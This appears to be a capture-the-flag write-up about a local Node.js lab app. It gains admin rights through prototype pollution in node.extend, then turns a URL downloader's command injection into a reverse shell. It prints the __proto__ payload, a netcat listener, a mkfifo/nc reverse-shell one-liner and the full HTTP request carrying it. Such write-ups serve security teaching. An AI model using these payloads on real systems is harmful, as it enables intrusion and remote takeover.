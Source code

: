 # Solution

## Recon

By opening the URL http://127.0.0.1:3333, we can see that a Singin Page has provided the following credential to log in as a guest user:

* **Username**: *guest*
* **Password**: *pass123*

So let's use them to log in and see more entry points.

![Credentials](https://i.ibb.co/gPmx1Qd/1-guest-account.png)

After signing, we can see a Url Downloader mechanism, but the guest user doesn't have permission to use this feature.

![NotAdmin](https://i.ibb.co/wQKHnMg/4-you-arenotetheadmin.png)

It's always a good idea to check what cookie the Web Site is using, in this case, after the login, the server provided the **admin_session** cookie, which is how the server knows that we are logged in as a guest.

![LogIn](https://i.ibb.co/89Xnqhx/3-login-response.png)

The cookie is apparently safe, so let's take a look at the source code.
At the source code, in the routes.js file, we can see that there is a credential DB with the guest and admin username and password. Looking with attention, you can see that the following value is set to the admin account:

```
 "isAdmin":true
```

Looking at the route **/admin/check_url** (the route used to download the URL), you can see a **checkLogin** and a **checkAdmin** function, responsible to grant or deny access to users that called this route.

![check_url](https://i.ibb.co/HHqcHFC/7-check-url-code.png)

There is a command execution after the isAdmin check, passing the chosen URL to the command without arguments scaping. So if we gain administrative permissions, we can easily trigger a remote command execution vulnerability.

Since we don't have the admin credentials, because it's a random string, let's take a look into the **checkLogin** and **checkAdmin** functions to see if we find a bypass.

Well, there is nothing interesting in the **checkLogin** function, since we already have a valid credential, let's look the **checkAdmin** function:

![checkAdmin](https://i.ibb.co/7WTsWmj/8-check-admin-code.png)

This function checks if the requested cookie has administrative permissions, the parameter that defines it is the `isAdmin`, that we already have noted above. But, the guest user doesn't have this permission, and this code is apparently secure, how can we bypass it? Well, let's take a deep look into the code.

Looking with attention to the **/admin/check_url** route, we can see that the developer has implemented a security log feature, defined by the **securityLog** function. This function will be trigged when a non-valid user tries to call this API.

![securityLogCall](https://i.ibb.co/L96PzGn/12e076f8-b9f3-40e4-ac53-e1474e916b64.jpg)

Looking at the function code we can see that it's using the **node.extend** function to concatenate two different JSON into the **log** variable, that will be logged with the **console.log** function.

![securityLogCode](https://i.ibb.co/djx5FxN/9-security-Log-code.png)

As well known, the **node.extend** function is vulnerable to Prototype Pollution, witch can lead to the **credentials DB** pollution, allowing to bypass the **checkAdmin** function.

## Exploit
To exploit it, we need to send the following payload with an unauthenticated user to the `/admin/check_url` route, to trigger the **security Log** function.

```
{
  "__proto__":{
    "isAdmin":true
  }
}
```

The payload above will pollute the guest credential, given him administrative permission, E.g:

* Before Pollution:

```
{"username":"guest", "password":"pass123", "cookie": "' + crypto.randomBytes(64).toString("hex") + '"}
```

* After Pollution:

```
{"username":"guest", "password":"pass123", "cookie": "' + crypto.randomBytes(64).toString("hex") + '", "isAdmin":true}
```

*Remeber to change the **Content-Type** header to **Content-Type: application/json** and to remove the **admin_session**.*

* **Payload Request**:

![payloadRequest](https://i.ibb.co/RGnhyd0/17-is-Admintrue.png)


Now, if we make a request with the guest cookie again, you can see that we successfully bypass the **checkAdmin** function.

* **Request After Pollution**:

![requestAfterPollution](https://i.ibb.co/ZGR1HsR/18-after-polluted.png)

![afterPollution](https://i.ibb.co/mC2zwTP/19-after-bypass.png)

## Remote Command Execution and Reverse Shell

As commented above, we already find a Remote Command Execution vulnerability because the passed URL is being used as a command without argument scaping, vulnerable code bellow:

![vulnCode](https://i.ibb.co/SKgzSss/f4002b85-a445-45b1-8a9a-4a1f86361f3e.jpg)

To exploit it, we just need to add a shell command to the URL. So let's make a reverse shell!

First, let's wait for a connection on port 4444 with Netcat:

```
nc -lvp 4444
```

![netCat](https://i.ibb.co/5cQR3Mt/20-nc-lvp.png)

Now let's insert the following payload in the URL parameter to make the reverse shell on 127.0.0.1:4444:

````
;`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 4444 >/tmp/f` #
````

* **The Final Payload (Remote Code Execution with the Reverse Shell)**:

```
POST /admin/check_url HTTP/1.1
Host: 127.0.0.1:3333
Connection: keep-alive
Content-Length: 96
User-Agent: Mozilla/ (X11; Linux x86_64) AppleWebKit/ (KHTML, like Gecko) Chrome/
Content-type: application/json
Accept: */*
Origin: http://127.0.0.1:3333
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Referer: http://127.0.0.1:3333/admin?
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: admin_session=5f4863e522da99e347045bc4d6343a6d55ead1974b68ac7ac6d2c8cdb5d7bcb846a09442b4bef21447910e612d99506eaf5ffba4c381cb38fb0c4ff5abc37f54

{
 "url":";`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 4444 >/tmp/f` #"
}
```

How you can see in the picture below, we successfully got a reverse shell on the target:

![final](https://i.ibb.co/T24wMML/21-payload.png)
